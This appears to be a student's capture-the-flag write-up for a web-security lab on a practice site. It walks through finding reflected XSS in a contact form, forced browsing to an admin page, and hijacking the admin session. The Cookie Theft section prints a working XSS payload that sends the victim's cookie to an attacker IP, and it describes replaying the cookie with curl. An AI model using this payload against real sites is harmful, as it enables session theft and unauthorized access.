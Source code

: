 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked Contact in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-2](https://github.com/user-attachments/assets/b6e69b17-d014-40da-a89b-01f74dc2b186)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/b1380dc0-ccd7-44f8-8536-92d8d0bebf16)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/53da4c88-831c-44b2-9c21-4b9dd8284073)

Then I tested for an XSS vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/87c7fd9d-fc96-4990-88aa-c63c96e4a939)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/db72d66c-e486-42c8-aedb-cd9ef4e9e16d)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. In Lab 4.4 from the course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/54c44f79-0f51-4ca6-b5c6-1a05b60ffecf)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran a curl command to get access to the admin page.

This returned the admin page output. Scroll down to see the flag. 
![Unauthorized Access-2](https://github.com/user-attachments/assets/922e6443-10d2-454e-bd81-05d523dab0ac)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/391d29fd-1221-4379-9ae1-4cefed9fa3a1)
